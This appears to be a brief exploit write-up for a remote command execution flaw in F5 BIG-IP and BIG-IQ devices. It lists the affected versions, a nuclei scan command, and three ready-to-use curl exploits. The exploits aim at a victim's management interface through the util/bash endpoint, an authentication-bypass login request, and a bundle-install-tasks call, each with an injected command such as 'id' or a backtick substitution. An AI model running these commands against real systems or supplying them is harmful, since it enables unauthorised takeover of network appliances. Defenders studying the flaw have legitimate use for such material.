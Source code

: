 ## BIG-IP：

```http
BIG-IP：
16.0.0-16.0.1
15.1.0-15.1.2
14.1.0-14.1.3.1
13.1.0-13.1.3.5
12.1.0-12.1.5.2

BIG-IQ：
7.1.0-7.1.0.2
7.0.0-7.0.0.1
6.0.0-6.1.0
```

## POC

```bash
nuclei -tags bigip -t cves/ -l urls.txt
```

## EXP

poc1:

```
curl -su admin: -H "Content-Type: application/json" http://[victimIP]/mgmt/tm/util/bash -d '{"command":"run","utilCmdArgs":"-c id"}'
```

EXP2:
```
curl -ks https://[victimIP]/mgmt/shared/authn/login -d '{"bigipAuthCookie":"","loginReference":{"link":"http://localhost/mgmt/tm/access/bundle-install-tasks"},"filePath":"`id`"}'
```

EXP3:
```
curl -ksu admin:[redacted] https://[vimtimIP]/mgmt/tm/access/bundle-install-tasks -d '{"filePath":"id"}'
```

[@wugeej](https://twitter.com/wugeej/status/1372392693989445635)